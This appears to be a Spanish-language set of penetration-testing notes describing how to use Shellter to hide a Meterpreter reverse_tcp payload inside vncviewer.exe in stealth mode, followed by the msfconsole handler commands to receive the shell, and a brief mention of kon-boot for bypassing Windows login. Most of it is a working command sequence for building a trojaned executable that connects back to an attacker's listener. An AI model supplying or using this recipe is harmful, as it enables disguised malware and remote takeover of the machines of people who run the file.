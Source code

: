 

##### shellter

Shellter es de las mejores opciones enmascarando un ejecutable malicioso, ya que permite introducir un ejecutable dentro de otro, por lo tanto el usuario abrirá el ejecutable interactuará con el programa principal, y en segundo plano nuestro ejecutable interno se ejecutara en segundo plano.

directorio de producción `/usr/share/shellter`

directorio donde encontramos los binarios de windows ` /usr/share/windows-binaries/` 

En el siguiente ejemplo introducimos un `reverse_tcp`  en un ejecutable `vnc`.



```bash
apt install shellter

cd /usr/share/shellter
cp /usr/share/windows-binaries/vncviewer.exe ./

shellter # abrir shelter
vncviewer.exe # binario a utilizar
Enable Stealth Mode? # habilitar que se ejecute el payload en segundo plano
Y
Use a listed payload or custom? # utilizare un payload de la lista
L
select payload by index: # el Meterpreter_reverse_TCP en lalista es el 1
1
set lhost 10.0.0.7 # donde se va a conectar
set lport 8888 # por que puerto
# ya podemos recoger nuestro archivo vncviewer.exe modificado del directorio actual.
```



**Usarlo:**

abrir puerto en linux

```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 10.0.0.7
set lport 8888
exploit
```

ejecutar en un windows el vmviewer.exe que hemos modificado y se conectara automáticamente al linux en la consola del meterpreter.



#### Evadir autenticación

Existen diferentes formas de evadir la autenticación de sistemas operativos.

Una buena manera  en windows es con el programa `kon-bootcd` que es una iso booteable y ella sola se encarga de todo.
